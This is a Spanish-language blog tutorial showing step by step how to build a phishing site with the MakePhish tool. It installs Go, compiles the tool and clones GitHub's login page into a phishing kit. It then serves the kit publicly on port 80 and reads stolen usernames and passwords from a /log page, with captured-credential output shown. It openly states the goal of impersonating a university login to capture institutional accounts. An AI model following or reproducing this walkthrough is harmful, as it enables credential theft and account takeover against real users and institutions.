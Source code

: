 
Vamos a demostrar lo fácil que es montar un sitio web de **phishing** para robar las credenciales del primer cibernauta incauto que pique la caña. 
La palabra *phishing* es un anglicismo que puede emplearse en lugar de "suplantación de identidad" [[?]​](https://www.facebook.com/RAE/posts/extranjerismos-phishingpara-evitar-el-anglicismo-phishing-se-pueden-emplear-en-s/4168733576480269/) y denota el intento de un atacante de extrase información sensible o simplemente perjudicar una victima enviandole un mensaje fraudulento o presentandose como alguien o algo que no es, como por ejemplo alguien de confianza, su jefe o su banco. En nuestro ejemplo no haremos pasar por el inicio de sesion de la universidad lo cual nos daría la posibildiad de capturar credenciales de cuentas institucionales

## Primero lo primero: el sevidor web
Al montar un página web falsa, pues, necesitamos donde alojar nuestra página que sea accesible desde cualquier parte del internet. El proceso del montaje del servidor web graiuto lo explicamos ya en el artículo [crear un servidor web con Google Cloud](https://fredyrosero.github.io/google%20cloud/2022/02/27/Crear-una-servidor-web-gr%C3%A1tis-con-Google-Cloud.html) donde configuramos el servidor *Apache* para que busque los archivos a servir en `/home/user/www`. Sin embargo, en vez de utilizar *Apache* vamos a utilizar el servidor web integrado de **PHP** [[?]](https://www.php.net/manual/en/features.commandline.webserver.php)

## Make Phish de @andpalmier
El programa `MakePhish` de [@andpalmier](https://github.com/andpalmier) nos permite clonar sitios web automáticamente y parchearlos con PHP para crear páginas de phishing
> This is a proof of concept to automatically create phishing kits based on a specified URL, please note that makephish will work exclusively on websites having a simple pages with `<form>` logins.

https://github.com/andpalmier/makephish

Procederemos a clonar la página de inicio de sesión de la Universidad Nacional para luego servirla en nuestro servidor web:

### Prerrequisitos
1. Instalmos `cURL`, `Git` y las los escenciales de compilación de linux:
    ```bash
    sudo apt update
    sudo apt install curl git build-essential
    ```

2. Instalamos `Go` y hacemos el comando accesible
    ```bash
    mkdir sandbox
    cd sandbox
    curl -O https://dl.google.com/go/go1.12.7.linux-amd64.tar.gz
    tar xvf go1.12.7.linux-amd64.tar.gz
    sudo chown -R root:root ./go
    sudo mv go /usr/local
    vim ~/.profile
    # export GOPATH=$HOME/work
    # export PATH=$PATH:/usr/local/go/bin:$GOPATH/bin
    ```

### Instalación de MakePhish
Clonamos el repositorio de `MakePhish` y compilamos el programa

```bash
mkdir ~/scripts
cd ~/scripts
git clone https://github.com/andpalmier/makephish
cd makephish
make makephish
```

### Ejecución
1. Clonaremos la página de inicio de sesión de *Github* que por defecto quedará en `kits/`
    ```bash
    URL="https://github.com/login/"
    cd ~/scripts/makephish
    ./build/makephish -url $URL
    ```
2. En el directorio creado en `kits/` lanzaremos el servidor de *PHP* con acceso remoto en el puerto 80 
    ```bash
    cd kits/github.com
    sudo php -S 0.0.0.0:80
    ```
3. La victima ingresaría sus credenciales y nuestra página impostora redirigirá el usuario a la página real de Github. Para este ejemplo usaremos `miUsuario` como usuario y `miContraseñ4` como contraseña.

4. Para ver las credenciales capturadas, vamos a la URL web `/log` de nuestro servidor, en esta caso con `curl localhost/log`:
    ```
    =============+=============
    Username/Email: miUsuario
    Password:       miContraseñ4
    IP:
    Date:           Mon Feb 28, 2022 7:25 am
    User Agent:     Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
    ===========================
    ``` 
#### Observaciones
El código intentará obtener el nodo HTML tipo formulario con el atributo `method` [[?]](https://github.com/andpalmier/makephish/blob/main/cmd/makephish/makephish.go#L44) y luego parchará el arhivo `index.html` de la carpeta de desitno
No todos los formularios son compatibles
```bash
URL="https://smartkey.xertica.com/cloudkey/a/unal.edu.co/user/login"
cd ~/scripts/makephish
./build/makephish -url $URL
```

No compatible fish
## Typosquating
